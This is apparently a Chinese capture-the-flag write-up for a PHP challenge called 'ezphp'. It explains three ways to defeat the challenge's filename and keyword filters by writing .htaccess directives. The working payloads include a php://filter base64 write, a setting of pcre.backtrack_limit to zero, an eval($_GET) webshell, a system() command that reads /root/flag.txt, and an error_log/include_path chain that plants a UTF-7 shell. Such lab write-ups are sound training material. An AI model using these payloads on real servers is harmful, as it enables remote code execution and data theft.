









ezphp

题目的大致意思就是要我们通过file_put_contents函数来写马，但是对我们可以控制的参数$filename和$content分别进行了preg_match函数和stristr函数的过滤，preg_match的过滤要求是输入的文件名必须只能带有[a-z\.]范围的字符，stristr函数则是过滤了on，type，flag，file等关键字
一开始应该都能想到直接写一个php文件带有一句话，但是写完访问会发现解析不了php代码，这是因为本题的环境只对index.php文件进行解析，而且在题目源码的开头和末尾都对当前目录下的文件进行了检查，删除除了index.php外的所有文件
那么既然只解析index.php，不妨写入一个.user.ini让index.php自动包含上我们写入的马，或者是.htaccess让当前目录下的所有文件都能解析为php文件，但是如果是第二种思路，一定需要写多次，前面写的.htaccess会被删掉；而如果是写上开头自动包含，并且包含的文件就是.user.ini，并且在.user.ini中直接写入马，那么理论上index.php在删除前就可以执行到我们写入的马。这里说明一下，.user.ini本题环境好像不支持，所以只能用.htaccess，.htaccess同样可以设置开头自动包含，首先查阅一下.htaccess设置php环境变量的格式，如下：
1 | #format |
那么我们到现在就可以大致的确定我们要写入的文件.htaccess，文件内容为：
1 | php_value auto_prepend_file .htaccess |
特别要注意一下，这里文件末尾有个符号\是必须写入的，我们注意到源代码中file_put_contents中的文件内容传入的变量$content末尾还连接上了\nJust one chance这个字符串，而\n代表着换行，而我们再一个\，则会拼接成\\n，即转义掉了n前面的\，构不成换行。换句话来说，如果我们没有加入\，那么写入.htaccess的文件内容就为：
1 | php_value auto_prepend_file .htaccess |
会出现末尾行的字符串不符合htaccess文件的语法标准而报错导致htaccess文件无法执行，那么当前目录下的所有文件就会面临崩溃，所以说，末尾必须写入\
但是，我们会发现这里写入的内容带有file关键字，那么我们接下来就是要绕过stristr的过滤，这里总结一下，有两种解题的方法：
方法一
参考p神的一篇文章：谈一谈php://filter的妙用
文章里面提到了file_put_contents函数中的第一个参数$filename，即写入的文件名是可以控制协议的，所以我们可以用php://filter流的base64-decode方法将文件内容参数$content进行base64解码，那么这样就可以通过将内容进行base64加密来绕过stristr函数的检查
测试代码如下：
1 |
|
1 | >>> base64.b64encode('<?php phpinfo();?>') |

那么到这里，我们又要面临一个问题，文件名要写入php://filter的话，又需要绕过preg_match的检查了，我们熟悉的preg_match是处理数组是会返回NULL，但是这里file_put_contents函数传入的文件名参数又不支持数组的形式，所以只能另想它法，这里又想到了之前看过的一篇文章：preg_match函数绕过
里面提到的思路就是通过正则匹配的递归次数来绕过，由pcre.backtrack_limit参数来控制：

不过文章里绕过的是贪婪匹配，而我们这把则是要让preg_match返回false，也就是匹配不到，这里就有一个骚操作，就是通过设置pcre.backtrack_limit值为0，使得回溯次数为0，来使得正则匹配什么都不匹配，即返回false
测试如下：

而pcre.backtrack_limit既然是php的环境变量，自然也可以在.htaccess中进行设置
综上首先，传入payload如下：
1 | ?content=php_value%20pcre.backtrack_limit%200%0aphp_value%20pcre.jit%200%0a%23\&filename=.htaccess |
写入.htaccess的内容如下：
1 | php_value pcre.backtrack_limit 0 |
要注意的是这边测试得知php版本>=7，所以还需要特别设置pcre.jit这个环境变量为0，不适用JIT引擎来匹配正则表达式，就使得pcre.backtrack_limit这个环境变量能正常生效，这个上传的.htaccess文件的作用就是使得我们能绕过preg_match函数，接下来传入payload如下：
1 | ?filename=php://filter/write=convert.base64-decode/resource=.htaccess&content=cGhwX3ZhbHVlIHBjcmUuYmFja3RyYWNrX2xpbWl0IDAKcGhwX3ZhbHVlIHBjcmUuaml0IDAKcGhwX3ZhbHVlIGF1dG9fYXBwZW5kX2ZpbGUgLmh0YWNjZXNzCiNhPD9waHAgZXZhbCgkX0dFVFsxXSk7Pz5c |

对于第一次写入的.htaccess文件，生效后使得我们绕过了preg_match函数的检测，再次写入了.htaccess文件，内容带有自动包含头和php马，生效后，最后再传入
1 | ?filename=php://filter/write=convert.base64-decode/resource=.htaccess&content=cGhwX3ZhbHVlIHBjcmUuYmFja3RyYWNrX2xpbWl0IDAKcGhwX3ZhbHVlIHBjcmUuaml0IDAKcGhwX3ZhbHVlIGF1dG9fYXBwZW5kX2ZpbGUgLmh0YWNjZXNzCiNhPD9waHAgZXZhbCgkX0dFVFsxXSk7Pz5c&1=phpinfo(); |
即可成功执行shell

最后找到flag路径在/root/flag.txt，读取即可

当然，也有个更简单的方法
方法二
我们可以通过对过滤的关键字中间添加换行\n来绕过stristr函数的检测，不过仍然需要注意添加\来转义掉换行，这样才不会出现语法错误，如此一来就不需要再绕过preg_match函数，即可直接写入.htaccess来getshell，payload如下：
1 | ?content=php_value%20auto_prepend_fil\%0ae%20.htaccess%0a%23<?php%20system('cat%20/root/fla'.'g.txt');?>\&filename=.htaccess |
写入.htaccess的内容：
1 | php_value auto_prepend_fil\ |

方法三
这个方法是官方的预期解
我们可以注意到源代码中有一行包含的语句：
1 | include_once("fl3g.php"); |
做题时我们就会发现，这个文件实际上在网站目录下是不存在的，那么题目特地加上这一句，实际上就是让我们去创建一个fl3g.php，写入一句话，再通过index.php包含fl3g.php来getshell。但是我们知道，题目的环境已经设置了只解析index.php这个文件，如果我们在网站目录下写，那肯定是解析不了的。所以我们可以在其他目录，例如/tmp目录下写入fl3g.php，那么怎么让index.php包含的路径为/tmp这就需要利用到php的一个配置选项：include_path,如果/tmp目录下有fl3g.php，就可以包含该文件
接下来就是设法写入/tmp/fl3g.php文件了，我们同样可以通过之前的方法设置prce_backtrack_limit来绕过写该文件，不过官方的解是利用到php的配置选项：error_log，该选项可以将php运行的报错信息写入到指定文件下。那么如何触发报错，我们可以利用将include_path设置为一句话木马，然后index.php执行到包含语句时，会因为将一句话作为路径去访问不存在而出现报错，并将报错的信息写入到tmp/fl3g.php
综上，第一步，通过error_log配合include_path在tmp目录生成shell
1 | php_value error_log /tmp/fl3g.php |
这里要注意的是通过error_log写入的内容会经过html编码，绕过的方法就是对一句话进行UTF-7编码
第二步，通过include_path和utf7编码执行shell
1 | php_value include_path "/tmp" |
